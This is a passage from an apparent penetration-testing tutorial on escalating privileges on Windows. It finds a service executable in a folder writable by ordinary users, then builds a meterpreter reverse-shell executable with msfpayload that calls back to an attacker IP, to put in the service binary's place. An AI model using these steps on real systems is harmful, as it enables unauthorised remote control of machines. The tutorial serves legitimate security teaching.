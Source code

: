 Successfully processed 1 files; Failed processing 0 files \[/plain\]

For my particular commands I've excluded service executables that live in c:\\windows\\system32 folder because more than likely those folders have the proper permissions because they came packaged with windows. The services I'm more interested in are third party applications because they get installed by a user and either the user improperly configures the folder permissions or during the install the application misconfigures the folder permissions. So this is the main reason why I filter out c:\\windows\\system32 but if you wanted to include that simply remove the system32 find statement from the command.

The output of the icacls command can be a little confusing but what you want to look for is if "BUILTIN\\Users" have full access which will be designated as "(F)". If you have full access to the folder where the service executable lives then you can replace the service executable with your own malicious service executable. So when the service starts, either at boot automatically or manually, your malicious executable will run hopefully giving you full access to the device. So my snippet of output actually has a  service with weak permissions which can also be seen on line 17 in the output above.

\[cce lang="dos"\]

C:\\Users\\homer>cmd.exe /c icacls "C:\\Program Files\\Common Files\\Microsoft Shared\\Source Engine\\OSE.EXE" C:\\Program Files\\Common Files\\Microsoft Shared\\Source Engine\\OSE.EXE BUILTIN\\Users:(F)

\[/cce\]

The "Source Engine" folder is a standard folder for windows 7 and out of the box has the proper permissions, meaning a regular user will not have write access to that folder. For this demonstration I've manually modified the permissions of the "Source Engine" folder to highlight the effect of improper permissions. So now that you've found a folder of a service that allows the write permission it's time to insert / upload our malicious executable. The most convenient way I've found is using the [msfpayload](http://www.offensive-security.com/metasploit-unleashed/Msfpayload) functionality within metasploit. For the uninitiated and overwhelmed folks that try to deal with metasploit and msfpayload it might just be best to use backtrack. Just grab [backtrack](http://www.backtrack-linux.org/tutorials/) which comes with everything installed and ready to go. I'm not going to go through all of the steps of getting metasploit up and running but if you have any troubles feel free to email me (travisaltman@gmail.com) or post a question in the comments. In backtrack I issue the following commands to create a malicious executable.

\[bash\] root@bt:~# ifconfig eth1 eth1      Link encap:Ethernet  HWaddr 00:0c:29:11:1e:53 inet addr:192.168.134.135  Bcast:192.168.134.255  Mask:255.255.255.0 inet6 addr: fe80::20c:29ff:fe11:1e53/64 Scope:Link UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1 RX packets:9227 errors:0 dropped:0 overruns:0 frame:0 TX packets:396 errors:0 dropped:0 overruns:0 carrier:0 collisions:0 txqueuelen:1000 RX bytes:650604 (650.6 KB)  TX bytes:123409 (123.4 KB) Interrupt:19 Base address:0x2024

root@bt:~# cd /pentest/exploits/framework root@bt:/pentest/exploits/framework# msfpayload windows/meterpreter/reverse\_tcp LHOST=192.168.134.135 lport=80 X > exploit.exe Created by msfpayload (http://www.metasploit.com). Payload: windows/meterpreter/reverse\_tcp Length: 290 Options: {"LHOST"=>"192.168.134.135", "lport"=>"80"} root@bt:/pentest/exploits/framework# \[/bash\]

The command on line one is simply trying to determine the IP address of our machine (ifconfig command) and line 3 states that our attacking IP address is 192.168.134.135, we'll need this information to create our malicious executable. The next command is on line 12 where you change directories (cd) to the location of the msfpayload command. Line 13 is the most important command which is the actual command we use to create our malicious executable. This command creates a meterpreter payload and the lhost and lport are parameters we set when creating the payload. The lhost is from the output of ifconfig and you can specify any port you like, you don't have to include lport because by default it's 4444. You don't need to know details about [meterpreter](http://en.wikibooks.org/wiki/Metasploit/MeterpreterClient) for now think of it as a windows command prompt on steroids. Finally we use the "> exploit.exe" to create the malicious executable in the current directory.
